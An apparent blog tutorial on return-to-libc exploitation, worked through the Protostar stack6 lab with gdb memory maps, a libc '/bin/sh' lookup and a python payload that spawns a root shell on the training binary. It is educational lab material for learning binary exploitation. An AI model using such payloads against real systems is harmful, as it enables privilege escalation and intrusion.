 ```yaml
---
title: RET2LIBC
author: kaki-epithesi
featured-img: logo_official
categories: [Tutorial,Binary Exploitation]
tags: [ROP,ret2libc]
---
```



A "return-to-libc" attack is a computer security attack usually starting with a buffer overflow in which a subroutine return address on a call
stack is replaced by an address of a subroutine that is already present in the process’ executable memory, bypassing the no-execute bit feature
(if present) and ridding the attacker of the need to inject their own code.

[wiki](https://en.wikipedia.org/wiki/Return-to-libc_attack)

Let me explain it with protostar [stack6](https://exploit-exercises.lains.space/protostar/stack6/).

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char argv)                  
{                                                
  getpath();                                     

}                                                
```
By definition it comes with a bof attack
RET2LIBC exploit or attack is used when there are restrictions on the
return address.
```c
if((ret & 0xbf000000) == 0xbf000000) {
  printf("bzzzt (%p)\n", ret);
  _exit(1);
}
```
RET2LIBC will help us to circumvent this typ of restrictions

```bash
(gdb) info proc mappings
process 1574
cmdline = '/opt/protostar/bin/stack6'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/stack6'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack6
         0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack6
        0xb7e96000 0xb7e97000     0x1000          0        
        0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
        0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
        0xb7fd9000 0xb7fdc000     0x3000          0        
        0xb7fde000 0xb7fe2000     0x4000          0        
        0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
        0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
        0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
        0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
        0xbffeb000 0xc0000000    0x15000          0           [stack]
(gdb)
```

coming to the definition of ret2libc
```
which a subroutine return address on a call stack is replaced by an
address of a subroutine that is already present in the process
```
A subroutine that is already present in the stack
so we are gonna serach for '/bin/sh'

```bash
(gdb) shell strings -a -t x /lib/libc-2.11.2.so | grep "/bin/sh"
 11f3bf /bin/sh
```
>: NOTE : 11f3bf  is  in  hex  as  "-t x"   prints  offset  in  hex.

so it is an offset 11f3bf
starting addr of libc + 0x11f3bf

```bash
(gdb) x/s 0xb7e97000 + 0x11f3bf
0xb7fb63bf:      "/bin/sh"
```

1>Now to gain root access we have to find the eip offset

2>addr of libc system

3>return address after system

4>addr of /bin/sh

```bash
user@protostar:/opt/protostar/bin$ python -c 'print"A"*80 + "\xb0\xff\xec\xb7" + "\x90"*4 + "\xbf\x63\xfb\xb7"' > /tmp/stack6f.txt
user@protostar:/opt/protostar/bin$ (cat /tmp/stack6f.txt;cat) | ./stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����AAAAAAAAAAAA��췐����c��
whoami
root
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

I just explained ret2libc

need full solution of stack6 protostar [visit](https://medium.com/bugbountywriteup/expdev-exploit-exercise-protostar-stack-6-ef75472ec7c6)
